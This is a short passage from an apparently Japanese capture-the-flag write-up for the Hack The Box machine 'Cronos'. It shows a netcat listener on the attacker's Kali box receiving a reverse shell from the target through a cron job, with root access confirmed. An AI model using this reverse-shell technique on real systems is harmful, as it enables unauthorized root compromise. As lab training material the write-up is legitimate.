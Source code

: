 この状態で crontab が実行されるのを待っていると…

```:Kali
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.13] 55106
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 21:24:02 up 10:02,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

```

root が取れました

## 終わりに
medium にしてはかなり簡単なマシンでした。

 

